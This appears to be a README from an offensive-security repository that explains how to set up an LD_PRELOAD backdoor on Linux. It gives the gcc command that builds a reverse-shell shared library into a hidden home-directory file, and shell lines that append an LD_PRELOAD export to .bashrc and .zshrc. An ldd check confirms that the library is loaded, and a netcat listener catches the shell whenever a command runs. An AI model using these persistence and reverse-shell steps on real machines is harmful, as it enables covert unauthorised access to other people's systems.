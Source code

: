 # LD_PRELOAD

```
The dynamic linker can be run either indirectly by running some
dynamically linked program or shared object (in which case no
command-line options to the dynamic linker can be passed and, in
the ELF case, the dynamic linker which is stored in the .interp
section of the program is executed) or directly by running...

https://man7.org/linux/man-pages/man8/ld.so.8.html
```

The `LD_PRELOAD` directive can be used for linking an external library to a main program.
Declaring an `LD_PRELOAD` in `.bashrc` or `.zshrc` allows to let any binary, run by a user, to execute the code
contained in such shared object.

So first, compile `compile.c`, which opens a socket for a reverse shell, must be compiled using the following options:

`gcc -fPIC --shared compile.c -o .sshared`

Let's assume it's saved under `~` home directory.

Then let's update both `.bashrc` and `.zshrc` with

```bash
[ -f "$HOME/.bashrc" ] && echo 'export LD_PRELOAD=$HOME/.sshared' >> "$HOME/.bashrc"
[ -f "$HOME/.zshrc" ] && echo 'export LD_PRELOAD=$HOME/.sshared' >> "$HOME/.zshrc"
```

From now on, opening a terminal and executing the program will run the shared library containing the backdoor.

Let's check the linkage after these steps:

`ldd /usr/bin/id`

```
 linux-vdso.so.1 (0x00007ffcb11e4000)
 /home/virgula/.sshared (0x0000727261bce000)
 libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x0000727261b88000)
 libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x0000727261992000)
 libpcre2-8.so.0 => /lib/x86_64-linux-gnu/libpcre2-8.so.0 (0x00007272618f4000)
 /lib64/ld-linux-x86-64.so.2 (0x0000727261be3000)
```

Open a netcat to notice reverse shell connection attempt whenever a command is executed.

`nc -lvnp 1234`